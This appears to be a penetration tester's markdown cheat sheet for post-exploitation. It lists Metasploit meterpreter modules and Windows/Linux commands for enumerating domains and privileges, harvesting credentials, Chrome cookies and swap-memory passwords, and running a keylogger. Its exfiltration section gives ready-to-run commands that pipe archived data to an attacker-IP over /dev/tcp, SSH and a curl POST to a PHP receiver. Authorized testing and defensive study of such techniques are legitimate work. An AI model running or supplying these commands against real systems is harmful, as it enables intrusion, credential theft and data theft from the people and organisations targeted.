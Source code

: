 # Gather info
## Metasploit
* `meterpreter> run post/windows/gather/*`
* `meterpreter> run post/linux/gather/*`
* `meterpreter> run post/windows/gather/credentials/*`
* `meterpreter> run post/linux/gather/credentials/*`
* `run post/windows/gather/credentials/credential_collector`
* `meterpreter> run post/windows/gather/enum_domains`
* `meterpreter> run post/windows/gather/enum_ad_users`
* `meterpreter> run post/windows/gather/enum_shares`
* `meterpreter> run post/windows/gather/enum_applications`

## Windows
* `net view /domain`
* `net group "<domain-name>" /domain` - get list of domain controllers
* `net users`
* `net localgroup <group-name>`
* `net share`
</br>__Services__</br>
* `tasklist /svc`
</br>__Privileges__</br>
* `whoami /priv`
* `whoami /groups`
* `whoami /all`
</br>__Powershell__</br>
  * `Get-Process -IncludeUserName | Where-Object {$_.UserName -match "SYSTEM"} | Format-List -Property Username,Name,Id` - identify SYSTEM processes 

## Linux
* `cat /etc/passwd`
* Pilfering credentials from sqp memory
   * `swapon -s` or `cat /proc/swaps` -get swap partition
   * `strings </dev/sda5> | grep "password"` - search "password" text in the swap partition
* `./swap_digger.sh` - https://github.com/sevagas/swap_digger
 

## Cool resources
* Windows
    * https://docs.google.com/document/d/1U10isynOpQtrIK6ChuReu-K1WHTJm4fgG3joiuz43rw/edit?hl=en_US
    * https://tim3warri0r.blogspot.com/
* Linux
    * https://docs.google.com/document/d/1ObQB6hmVvRPCgPTRZM5NMH034VDM-1N-EWPRz2770K4/edit?hl=en_US
    * https://book.hacktricks.xyz/linux-hardening/linux-post-exploitation
* OSX        - https://docs.google.com/document/d/10AUm_zUdAQGgoHNo_eS0SO1K-24VVYnulUD2x3rJD3k/edit?hl=en_US
* Metasploit - https://docs.google.com/document/d/1ZrDJMQkrp_YbU_9Ni9wMNF2m3nIPEA_kekqqqA2Ywto/edit?pref=2&pli=1


# Gather data
## Metasploit
* `meterpreter> run scraper`

* `meterpreter> run post/multi/gather/*` - double tab to see all modules
* `meterpreter> screenshot`
* keylogging
   * screen unlock          -> attach process to __winlogon.exe__
   * application keystrokes -> attach processes to __explorer.exe__
   * `meterpreter> keyscan_start` - start sniffer
   1. `meterpreter> keyscan_dump` - print keystrikes on screen
   2. `meterpreter> keyscan_stop` - stop sniffer
  </br>or</br>
   * `meterpreter> keylogrecorder` - start sniffer
**Windows**
* `meterpreter> run winenum`
* `meterpreter> run post/windows/gather/credentials` - double tab to see all modules
* `meterpreter> run post/windows/gather/enum_chrome` - chrome data: cookies, credentials, history
* `meterpreter> run post/windows/gather/credentials/credential_collector`
**Linux**
* msf> `use post/linux/gather/enum_configs`
* msf> `use post/linux/gather/enum_system`
* msf> `use post/linux/*` - double tab to see options

**General Tactics**
* dump browser cache
* dump browser bookmarks
* setup sniffers on victim

## Other tools
* SessionGopher - dump local credentials (Windows)

# Data exfiltration
## Linux
* TCP socket with EBCDIC and Base64
   * attacker system: `nc -lvp 80 > datafolder.tmp`
   * target system: `taczcf - /tmp/datafolder | base64 | dd conv=ebcdic > /dev/tcp/<attacker-IP>/80`
   * attacker machine: `dd conv=ascii if=datafolder.tmp | base64 -d > datafolder.tar`
   * attacker machine: `tar xf datafolder.tar`
* SSH
   * target system: `tar zcf - /tmp/datafolder | ssh <user>@<attacker-IP> "cd /tmp; tar zxpf -"`
* POST request over HTTPS
   * attacker system: create php file (contact.php) to log data: `<? php file_put_contents('/tmp/datafolder.base64', file_get_contents('php://input')); ?>`
   * attacker system: `php -S <IP>:8000`
   * target system: `curl --data "$(tar zcf - /tmp/datafolder | base64)" https://<attacker-IP>/contact.php`
   * target system: `cat /tmp/datafolder.base64 | base64 -d > datafolder.tar && tar xf datafolder.tar`

## Cool resources
* https://wiki.zacheller.dev/pentest/post-exploitation/file-transfers

